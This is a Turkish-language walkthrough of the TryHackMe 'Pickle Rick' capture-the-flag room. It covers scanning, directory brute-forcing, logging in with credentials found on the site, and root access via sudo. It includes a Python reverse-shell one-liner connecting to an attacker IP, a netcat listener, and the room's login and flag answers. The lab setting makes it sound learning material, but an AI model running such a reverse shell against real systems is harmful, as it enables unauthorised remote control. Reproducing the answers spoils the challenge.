 ```yaml
---
title: Pickle Rick
date: 2024-03-27 13:10:12 
categories: [TryHackMe]
tags: [Easy,Dirbuster,Linux]  
image: images/rick.webp
---
```


Bu Rick ve Morty temalı mücadele, bir web sunucusundan yararlanmanızı ve Rick'in iksirini yapmasına ve kendisini turşudan insana dönüştürmesine yardımcı olacak üç malzeme bulmanızı gerektirir.

<a href="https://tryhackme.com/room/picklerick">Pickle Rick</a>




Rick'in ihtiyacı olan ilk malzeme nedir?


Her zamanki gibi nmap taraması ile başlayalım

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a1.png?raw=true)

80 portunda web sitesi çalıştığnı görüyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a2.png?raw=true)

Sayfanın kaynak koduna baktığımız zaman kullanıcı adını görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a3.png?raw=true)

Gobuster çalıştırıp gizli dizin arayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a4.png?raw=true)

robots.txt login.php ve portal.php sayfalarını bulduk.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a5.png?raw=true)

robot.txt yi açtığımızda karşımıza çıkan sayfa. Şifre olabileceğini düşünerek login sayfasına giriş yapmayı deniyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a6.png?raw=true)

Giriş yapmayı başardım.
> R1ckRul3s:Wubbalubbadubdub

Komut çalıştırmayı deneyelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a7.png?raw=true)
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a8.png?raw=true)

Bu dosyanın içeriği cat komutu ile kontrol edilmek istendiğinde komut engelleniyor

Konsola python reverse shell komutu yazmayı deniyorum. [Reverse Shell Generator](https://www.revshells.com/) kullanıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a9.png?raw=true)

````python
export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
````

netcat çalıştırmayı unutmayın.

````bash
nc -nvlp 1234
````

Makineye girmeyi başardık.

Bu aşamadan sonra makinede araştırma yapmak kalıyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a10.png?raw=true)


İlk sorunun cevabına ulaşıyoruz.
> mr. meeseek hair

Devam edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a11.png?raw=true)


İkinci sorunun cevabına ulaştık.

>1 jerry tear

Son sorunun cevabı root dizininde. Root dizinine ulaşmak içinde root yetkisine sahip olmak gerekir. Bu sistemde yetki yükseltme komutları için hiçbir önlem alınmamış. O yüzden herhangi bir root yükseltme komutu ile yetki yükseltilebilir. Ben root yükseltmek için sudo bash komutunu kullandım

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a12.png?raw=true)

Son sorunun cevabını buluyoruz.

> fleeb juice


![fsoc](/images/fsoc.gif)
